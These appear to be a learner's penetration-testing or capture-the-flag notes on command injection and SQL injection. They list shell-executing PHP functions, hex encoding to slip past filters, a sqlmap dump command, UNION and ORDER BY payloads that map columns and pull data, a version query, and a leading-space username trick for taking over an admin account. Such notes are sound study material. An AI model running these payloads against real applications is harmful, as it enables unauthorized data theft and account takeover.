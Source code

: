 ## Vulnerable Functions 

functions that interact with the operating system to execute commands via shell:
- Exec
- Passthru
- System

## Bypassing Filters

Insert the payload using the hexadecimal value



---
# SQL Injection

Use sqlmap with options like `--dump`

1. Use burpsuite to capture a SQL request
2. Save as a .req file
3. run `sqlmap -r capture.req --dump`

the error says this:
`Invalid statement: <code>SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = *`
So you have to insert `null` to prevent invalid statement
`UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"`

`0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1`

add a space character before registering a new account to gain the same read/write permissions as an account with the same name
```
'admin' --> is a registered account username
you create the username ' admin' to gain the same rights 
```



### Determine columns

Use this
`' ORDER BY 1#`
When nothing heard, increment ++
`' ORDER BY 2#`
`' ORDER BY 3#`

When error reads like *"Unknown column '3' in 'order clause'"* this means the table has two columns

## Determine Version

```bash-notab-nocopy-nocolor
' UNION SELECT @@version, NULL#
```
